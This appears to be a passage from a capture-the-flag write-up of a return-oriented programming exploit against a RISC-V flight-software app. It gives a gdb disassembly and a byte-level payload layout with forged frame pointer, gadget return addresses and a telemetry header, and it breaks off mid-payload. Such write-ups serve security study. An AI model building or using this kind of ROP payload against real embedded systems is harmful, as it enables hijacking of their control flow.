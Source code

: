 ```c
-exec disassemble ROP_APP_Send_Token
//Dump of assembler code for function ROP_APP_Send_Token:
   0x94901150 <+0>:	addi	sp,sp,-32
   0x94901152 <+2>:	sw	ra,28(sp)
   0x94901154 <+4>:	sw	s0,24(sp)
   0x94901156 <+6>:	addi	s0,sp,32
   // ...
   0x9490118c <+60>:	auipc	a0,0x2                // START, to ensure we skip the token overwrite
   0x94901190 <+64>:	lw	a0,-232(a0) # 0x949030a4
   0x94901194 <+68>:	jal	0x94900b00 <CFE_SB_TimeStampMsg@plt>
   0x94901196 <+70>:	auipc	a0,0x2
   0x9490119a <+74>:	lw	a0,-242(a0) # 0x949030a4
   0x9490119e <+78>:	jal	0x94900c00 <CFE_SB_SendMsg@plt>
   0x949011a0 <+80>:	li	a5,1
   0x949011a2 <+82>:	mv	a0,a5
   0x949011a4 <+84>:	lw	ra,28(sp)
   0x949011a6 <+86>:	lw	s0,24(sp)
   0x949011a8 <+88>:	addi	sp,sp,32
   0x949011aa <+90>:	ret
```


# Solve 2 Explanation
copy proper header for tlm message, with memcpy to scratch space

Scratch space `sp+0x300`
Stackptr = can be determined based off a static offset from the start where telescope.so is loaded in memory
* source is 12 bytes in provided buffer, otherwise find byte in memory to copy
* stackframeptr(fp/s0) moves to inside of buffer for size=>a0, src=>a1, dest=>a2

[size(4), source(4), destination(4), nothing(12), stackframeptr(4), return address(4), tlm_header(12), nothing(16), stackalignment(4) ]

size    = 0x0000000c
src     = 0x93f97ca0 (this in the message)
dest    = 0x93f97fa0 (sp + 0x300)
nothing = 0x41(4),0x42(4),0x43(4)

stackframeptr   = 0x93f97c9c (is 28bytes from the first argument to memcpy, in the message)
returnaddress   = 0x692dc458 (a call to memcpy, that includes putting arguments into a0,a1,a2)
tlm_header      = [0x03,0x66,0xc0,0x00, 0x00,0x45,0x00,0x00, 0x00,0x00,0x00,0x00]
nothing         = 0x50 - 0x6b
stackalignment  = 0x692e7896 (a function epilogue that realigns stack to return to normal operation)

[
    size: 0x0c,0x00,0x00,0x00,
    src:  0xa0,0x7c,0xf9,0x93,
    dest: 0xa0,0x7f,0xf9,0x93,
    NOTHING: 0x41,0x41,0x41,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,
    